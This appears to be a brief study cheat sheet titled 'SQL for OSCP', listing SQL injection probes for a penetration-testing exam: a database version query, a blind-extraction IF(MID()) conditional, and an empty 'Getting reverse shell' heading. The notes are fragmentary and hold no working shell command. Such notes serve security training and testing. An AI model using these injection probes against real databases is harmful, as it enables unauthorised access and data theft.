 # SQL for OSCP

* select @@version
* select IF\(MID\(x,x,x\) = y,y,y\);
* Getting reverse shell
  * 

